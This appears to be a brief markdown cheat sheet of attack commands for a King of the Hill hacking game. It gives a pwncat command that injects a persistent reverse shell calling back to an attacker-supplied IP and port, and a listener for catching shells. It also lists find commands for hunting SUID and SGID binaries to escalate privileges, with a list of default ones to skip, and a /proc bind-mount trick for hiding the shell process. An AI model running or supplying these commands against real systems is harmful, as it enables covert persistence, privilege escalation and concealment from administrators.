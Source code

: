 ## KOTH attack

Persistence shell:
```
pwncat -l <PORT> --self-inject /bin/sh:<YOUR IP>:<PORT>+3
```

Connect to other shells using:
```
pwncat -l <PORT> -vv
```

Finding SUID & SGID binaries 
```
find / -perm -u=s -type f 2>/dev/null #SUID
find / -perm -g=s -type f 2>/dev/null #SGUD
```

SUID:
```
[!] Default Binaries (Don't bother)
------------------------------
/bin/umount
/bin/fusermount
/bin/su
/bin/mount
/bin/ping
/bin/ping6
/sbin/mount.nfs
/usr/bin/gpasswd
/usr/bin/traceroute6.iputils
/usr/bin/sudo
/usr/bin/arping
/usr/bin/at
/usr/bin/newgrp
/usr/bin/chfn
/usr/bin/chsh
/usr/bin/passwd
/usr/sbin/pppd
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
```

to hide shell (not tested) :
```
mount -o bind /empty/dir /proc/42
```
